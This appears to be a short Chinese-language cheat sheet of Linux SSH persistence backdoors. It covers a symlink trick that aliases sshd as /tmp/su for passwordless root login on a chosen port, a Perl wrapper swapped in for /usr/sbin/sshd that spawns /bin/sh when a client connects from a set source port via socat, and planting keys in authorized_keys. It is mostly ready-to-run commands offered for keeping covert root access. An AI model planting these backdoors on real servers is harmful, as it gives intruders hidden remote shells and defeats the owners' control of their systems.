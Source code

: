 #软链接后门
```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su-oPort=47789;


ssh root@0.0.0.0 -p 47789

```
#SSH Server wrapper后门

1.复制sshd到bin目录
```
cd /usr/sbin
mv sshd ../bin
```
2.编辑sshd
```
vim sshd //加入以下内容并保存
#!/usr/bin/perl
exec "/bin/sh"if(getpeername(STDIN)=~/^..LF/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
```
3.修改权限
```
chmod 755 sshd
```
4.使用socat
```
socat STDIOTCP4:target_ip:22,sourceport=19526
```
如果没有安装socat需要进行安装并编译
```
wget http://www.dest-unreach.org/socat/download/socat-1.7.3.2.tar.gz
tar -zxvf socat-1.7.3.2.tar.gz
cd socat-1.7.3.2
./configure
make
make install
```
5.使用ssh root@target_ip即可免密码登录
#ssh公钥免密
将本地计算机生成公私钥，将公钥文件复制到需要链接的服务器上的`~/.ssh/authorized_keys`文件，并设置相应的权限，即可免密码登录服务器。
```
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```
